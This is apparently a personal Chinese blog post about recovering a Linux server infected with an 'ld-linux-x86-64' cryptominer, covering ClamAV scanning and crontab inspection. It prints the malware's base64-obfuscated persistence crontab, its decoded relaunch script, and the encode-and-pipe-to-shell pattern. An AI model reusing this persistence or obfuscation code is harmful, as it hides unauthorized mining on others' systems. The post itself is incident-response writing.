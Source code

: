 ```yaml
---
title: ld-linux-x86-64 Linux矿机病毒
poc: true
categories:
  - [信息安全, 二进制]
  - [杂谈]
tags: [服务器, 病毒, 挖矿]
id: '6'
date: 2021-03-27 17:53:57
---
```


之前的站点被sql注入然后提权了,服务器直接失联,同时还被删库了...

谨以此文记录

# 事发背景

笔者部署了一个自动健康打卡程序(我只是GitHub的搬运工(doge))突然不打卡了,然后ssh上去看看情况,结果发现ssh上不去了,整个服务器直接失联,人都傻了

直接重装服务器也并非一个明智的选择,因为所有备份数据需要ftp/ssh连上去服务器才可以开展

姑且先尝试在阿里云后台点击服务器关机,结果关都关不了,无奈之下选择强制关机,然后重新开机,成功连接ssh(后续发现数据库文件已损坏)

进去shell之后直接输入`top`命令

看到了一个可疑进程占用率极高,而且在不断攀升,不一会就变成了90%+

通过搜索进程名(ld-linux-x86-64)发现是个挖矿病毒

# 病毒细节

搜了一下发现变种比较多，这里讲一种个人感觉比较有意思的变种,说不定可以用来出一道密码学签到题23333

大致思路为:利用管道符加密，解密病毒脚本

```
echo "something encrypted by base64"  base64 -di  sh
```

echo的内容即为脚本病毒核心内容经base64加密(当然,也可以换成其他加密方式)后的字符串

# 杀毒

病毒的变种比较多,网上有的文章是test用户下的文件是病毒的核心文件(test用户是攻击者提权之后创建的),而有的是mysql用户,方法不一,最终笔者找到了一个泛用性较好的方法

在搜索的过程中,笔者首次了解到ClamAV这款Linux端开源杀毒软件，于是尝试使用其进行杀毒

```
#!/bin/sh
#CentOS 8.2
sudo dnf --enablerepo=extras install epel-release
sudo dnf update -y
yum install clamd -y
freshclam
service clamd start
chkconfig clamd on
clamscan -r / --move=/tmp
```

然后就会开始全盘扫描

上述代码中,最后一行的`/`是扫描的目录范围，`--move`选项是移至隔离区

扫描出来3个被感染的文件

删除之后问题仍然存在,说明有个进程会监听并拉起病毒程序,经网上文章提示,查看了一下crontab任务清单

`crontab -l`

发现可疑进程,每1分钟执行一次,内容如下

```
#!/usr/bin/env bash

echo 'IyEvYmluL3NoCmlmIHRlc3QgLXIgL3NiaW4vaW5pdGN0MTsgdGhlbgpwaWQ9JChjYXQgL3NiaW4v
aW5pdGN0MSkKaWYgJChraWxsIC1DSExEICRwaWQgPi9kZXYvbnVsbCAyPiYxKQp0aGVuCnNsZWVw
IDEKZWxzZQpjZCAvc2JpbgouL21rZTNmcyAmPi9kZXYvbnVsbApleGl0IDAKZmkKZmkK'  base64 -di  sh
```

base64解密后内容

```
#!/bin/sh
if test -r /sbin/initct1; then
pid=$(cat /sbin/initct1)
if $(kill -CHLD $pid >/dev/null 2>&1)
then
sleep 1
else
cd /sbin
./mke3fs &>/dev/null
exit 0
fi
fi
```

删除该用户的所有crontab,然后再次全盘扫描即可

但是攻击方究竟是如何注入进来的....

限于目前笔者水平,看不懂Linux网络日志emmmm,只好作罢